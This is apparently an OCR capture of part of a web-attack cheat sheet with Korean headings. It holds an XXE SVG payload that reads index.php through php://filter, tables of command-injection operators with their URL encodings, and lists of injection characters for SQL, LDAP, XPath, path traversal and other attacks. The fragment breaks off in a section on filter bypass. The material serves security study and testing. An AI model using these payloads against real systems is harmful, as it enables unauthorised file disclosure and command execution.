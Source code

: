<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

<br/><br/>
# Command Injections

## Command Injection Methods
| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

## Injection Operators
| **Injection Type**                      | **Operators**                                     |
| --------------------------------------- | ------------------------------------------------- |
| SQL Injection                           | `'` `,` `;` `--` `/* */`                          |
| Command Injection                       | `;` `&&`                                          |
| LDAP Injection                          | `*` `(` `)` `&` `\|`                              |
| XPath Injection                         | `'` `or` `and` `not` `substring` `concat` `count` |
| OS Command Injection                    | `;` `&` `\|`                                      |
| Code Injection                          | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`  |
| Directory Traversal/File Path Traversal | `../` `..\\` `%00`                                |
| Object Injection                        | `;` `&` `\|`                                      |
| XQuery Injection                        | `'` `;` `--` `/* */`                              |
| Shellcode Injection                     | `\x` `\u` `%u` `%n`                               |
| Header Injection                        | `\n` `\r\n` `\t` `%0d` `%0a` `%09`                |

## 공백 필터 우회
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

## 기타 Blacklisted Characters 우회

### Linux (실제 적용 시 echo는 제외)
```
echo ${PATH}

